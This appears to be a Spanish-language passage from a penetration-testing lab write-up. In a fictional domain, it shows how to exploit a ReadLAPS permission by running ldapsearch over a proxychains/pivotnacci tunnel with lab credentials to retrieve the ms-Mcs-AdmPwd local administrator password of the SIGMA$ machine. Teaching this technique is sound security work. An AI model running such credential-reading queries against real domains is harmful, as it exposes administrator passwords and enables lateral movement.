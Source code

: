 Al no disponer del módulo de Active Directory, y por variar un poco, se utilizará la herramienta [ldapsearch](https://linux.die.net/man/1/ldapsearch) a través del túnel de pivotnacci para conseguir explotar el permiso ReadLAPS. Para esto, simplemente se tienen que proporcionar las credenciales del usuario a Ldapsearch y solicitar las propiedades del objeto de dominio `SIGMA$`: 

```sh
proxychains4 ldapsearch -H ldap://zeta.ciberreserva.com -x -D "lprieto@ciberreserva.com" -w "Password123!" -b "dc=ciberreserva,dc=com" "(sAMAccountName=sigma$)"
```

| ![Imagen 123](images/123.png) |
|:----------: |
| Enumerando al objeto SIGMA utilizando ldapsearch a través del proxy socks |

| ![Imagen 124](images/124.png) |
|:----------: |
| Obteniendo ms-Mcs-AdmPwd de SIGMA |
